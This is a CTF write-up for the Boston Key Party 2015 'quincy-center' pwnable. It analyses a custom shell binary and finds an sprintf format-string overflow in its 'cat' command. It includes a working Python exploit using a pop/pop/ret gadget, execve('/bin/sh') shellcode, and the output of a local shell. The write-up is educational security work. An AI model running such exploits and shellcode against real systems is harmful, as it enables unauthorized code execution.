 ```yaml
---
title: '[bkpCTF-2015] quincy-center (uspace) write-up'
author: PPP
layout: post
categories:
  - CTF
  - Write-Ups
date: 2015-03-07 13:37:00
---
```

This is a write-up for **quincy-center** challenge, which is the first part of 3-chained pwnable challenge from <a href="https://ctftime.org/event/163" target="_blank">Boston Key Party CTF</a> last weekend. You can read about the other parts here: <a href="http://ppp.cylab.cmu.edu/wordpress/?p=1229" target="_blank">quincy-adams</a>, <a href="http://ppp.cylab.cmu.edu/wordpress/?p=1234" target="_blank">braintree</a>. You can also read from the <a href="https://www.bpak.org/blog/2015/03/bkpctf-2015-quincy-center-uspace-write-up/" target="_blank">origial post</a>.


The binaries were packaged into a <a href="https://www.bpak.org/blog/wp-content/uploads/2015/03/zenhv-e941cb4585deafcf5a1b86050a3ebe7a.gz" target="_blank">tar ball</a>.

> The MBTA wrote a cool system. It&#8217;s pretty bad though, sometimes the commands work, sometimes they don&#8217;t&#8230;  
> Exploit it. (uspace flag) 54.165.91.92 8899

The goal is to get &#8220;uspace&#8221; flag by exploiting the user space process.

Looking at the output of <span class="lang:default decode:true  crayon-inline">file</span> , these are all x86_64 binaries.

{% highlight bash %}
$ file uspace 
uspace: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=98a138f60a8cfd6239de3181ef118776db40c8e6, stripped
{% endhighlight %}

Opening up in IDA Pro, we see that <span class="lang:default decode:true  crayon-inline">sub_401470</span> has the process loop that prompts &#8220;bksh> &#8221; like a shell environment.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_1.png" lightbox="quincy-center" title="bksh (uspace) command line parser" %}

First, we see that there are semaphore locking/unlocking for I/O operations, which don&#8217;t seem to be too important at the moment. Then, the code to parse the command follows.

The general scheme for how the system works will be explained in the next series (kspace), so we will leave out the details of how things are implemented and maintained for now. Understanding the operations (create, list, remove, etc.) abstractly is good enough for exploiting the user space :)

There are total of 6 commands it understands: **ls**, **create**, **rm**, **cat**, **sleep**, and **exit**.

  * ls &#8211; lists files on the system
  * create &#8211; creates a new file on the system
  * rm &#8211; deletes a file on the system
  * sleep &#8211; sleep&#8230;
  * exit &#8211; exits the shell

Let&#8217;s look at what **create** does for us.

The function takes the first argument to the command as a file name, and reads 256 bytes from the user for the content of the file that is being created. The buffer that is being read is large enough, so there&#8217;s no overflow here. Then, it &#8220;calls&#8221; into the kernel &#8220;syscall&#8221; (via shared memory) with the syscall number 96 and its two arguments (file name & contents buffer). Everything seems normal and sane, so we move on.

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_2.png" lightbox="quincy-center" title="create syscall (from uspace to kspace)" %}

Looking through more functions, we find a vulnerable code in **cat**, where it uses <span class="lang:default decode:true  crayon-inline ">sprintf</span> with the file contents buffer as its format string (aka trivial buffer overflow).

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_3.png" lightbox="quincy-center" title="&#8220;cat&#8221; operation (open syscall followed by read syscall)" %}

**v12** is a stack buffer of size 256 bytes, and it&#8217;s located **bp-0x118**. Also, we noticed that the NX was disabled on this binary, so we could easily jump to our buffer (such as one of our arguments for the command). Conveniently, the pointers to our arguments are on the stack, so we can do a simple pop/pop/ret gadget to get an arbitrary code execution!

<p class="filename">pwn_uspace.py</p>
{% highlight python linenos %}
#!/usr/bin/python
import struct

def p(v):
    return struct.pack('<Q', v)

def u(v):
    return struct.unpack('<Q', v)[0]

f = open('payload', 'wb')

pop_pop_ret = 0x40110F

f.write('create fmt\n'.ljust(0x400, '#'))

payload = '%280x' + p(pop_pop_ret)
f.write(payload.ljust(0x100, '\0'))

f.write(('cat fmt ' + open('shell.bin').read()+ '\n').ljust(0x400, '#'))
{% endhighlight %}

&nbsp;

<p class="filename">shell.asm</p>
{% highlight asm linenos %}
[BITS 64]

section .text
global _start
_start:

lea rdi, [rel binsh]
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b
syscall

binsh:
db '/bin/sh',0
{% endhighlight %}

&nbsp;

<p class="filename">Pwn it!</p>
{% highlight bash %}
$ python pwn_uspace.py
$ (cat ../uspace/payload; cat -) | sudo ./tz
bksh> bksh>
whoami
uspace
{% endhighlight %}

We have successfully got a shell as *uspace* user.  
(Note that since the challenge servers are down, the exploitation is shown in a local setup.)

Once we have arbitrary code running on uspace, we can then perform syscalls that are exposed by the kernel, but not available through a user-space interface (such as syscall number 92, shown below).

{% include figure.html src="https://www.bpak.org/blog/wp-content/uploads/2015/03/uspace_4.png" lightbox="quincy-center" title="kspace syscall handler" %}

The analysis of kspace & tz will be continued on the next post.

&nbsp;

Write-up by Cai (Brian Pak) [[https://www.bpak.org](http://www.bpak.org)]